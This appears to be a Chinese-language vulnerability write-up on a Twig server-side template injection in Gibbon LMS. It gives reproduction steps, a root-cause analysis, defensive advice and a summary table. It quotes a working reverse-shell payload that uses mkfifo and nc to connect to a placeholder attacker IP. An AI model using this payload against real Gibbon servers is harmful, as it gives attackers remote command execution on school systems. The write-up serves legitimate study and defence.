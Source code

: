 ------

### **漏洞复现步骤**

1. **登录系统**

   - 使用管理员账号密码登录，获取会话Cookie。
   - **关键函数**：`login()`通过构造`multipart/form-data`请求绕过登录验证。

2. **注入SSTI Payload**

   - 向`/modules/School Admin/messengerSettingsProcess.php`发送恶意数据包。

   - **注入点**：`signatureTemplate`参数。

   - **Payload示例**：

     ```
   {{['rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 攻击者IP 端口 >/tmp/f']|filter('system')}}
     ```

   - **关键函数**：`rce()`构造反向Shell命令并触发模板执行。
   
3. **触发漏洞**

   - 访问`/index.php?q=/modules/School%20Admin/messengerSettings.php`激活Payload。
   - **关键函数**：`trigger()`通过GET请求触发漏洞执行。

------

### **漏洞原理分析**

1. **模板引擎**：Gibbon LMS使用Twig模板引擎，但未对用户输入的`signatureTemplate`参数进行过滤。
2. **注入逻辑**：
   - 攻击者通过`filter('system')`调用Twig过滤器，将数组元素作为系统命令执行。
   - Payload利用管道符`|`将命令传递给`system`函数，实现RCE。
3. **反向Shell构造**：
   - 通过`mkfifo`创建命名管道，结合`nc`（Netcat）建立反向Shell连接。

------

### **防御建议**

1. **输入过滤**：对用户输入的`{{}}`语法和危险符号（如`|`、`'`）进行转义。
2. **禁用危险函数**：在Twig配置中禁用`system`、`exec`等危险函数。
3. **权限控制**：限制后台管理功能的访问权限，避免低权限用户利用漏洞。
4. **升级补丁**：升级至官方修复版本。

------

### **关键知识点总结**

| 漏洞阶段     | 技术细节                                    | 关键知识点                                             |
| :----------- | :------------------------------------------ | :----------------------------------------------------- |
| **登录绕过** | 构造`multipart/form-data`请求绕过登录验证   | 表单边界（`boundary`）构造、会话Cookie提取             |
| **SSTI注入** | 利用`signatureTemplate`参数注入Twig模板代码 | Twig模板语法（`{{}}`）、过滤器（`filter`）调用系统函数 |
| **命令执行** | `filter('system')`执行数组中的命令          | 系统命令拼接、反向Shell构造（`mkfifo`+`nc`）           |
| **漏洞触发** | 通过访问特定URL激活Payload                  | GET请求触发模板渲染漏洞                                |

